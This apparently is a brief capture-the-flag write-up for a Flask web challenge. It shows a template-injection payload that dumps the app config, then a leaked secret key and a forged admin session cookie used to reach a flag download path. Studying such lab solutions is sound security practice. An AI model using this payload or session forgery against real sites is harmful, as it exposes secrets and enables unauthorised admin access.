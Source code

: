 # Day1 web2

Using command to start game

```
docker-compose up -d
```



```python
{{url_for.__globals__['current_app'].config}}
```
![ssti](img/img1.png)


```
key: tulongzhezhongjiangchenglong
session: eyJjc3JmX3Rva2VuIjoiOGJiNTNlOWJkZDU2MGE3OGE0MWJlNDVmYjIzYzRlOWU3NWZiYWU0YiIsIm5hbWUiOiJhZG1pbiJ9.X-nNQQ.vHh4W77NpXEkvIRT_dUqDXAdnMM
```

touch `http://ip/kaisaier/admin_dowmload` to get flag
![flag](img/img2.png)


